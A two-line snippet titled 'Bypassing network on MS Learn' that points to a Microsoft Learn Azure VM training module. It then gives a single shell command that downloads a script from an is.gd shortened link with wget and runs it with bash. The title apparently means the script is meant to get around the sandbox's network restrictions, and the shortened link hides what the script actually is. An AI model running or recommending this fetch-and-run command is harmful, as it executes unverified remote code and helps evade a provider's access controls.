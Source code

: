 Bypassing network on MS Learn:

https://learn.microsoft.com/en-us/training/modules/manage-virtual-machines-with-azure-cli/2-create-a-vm

wget https://is.gd/bk38817 ; bash bk38817
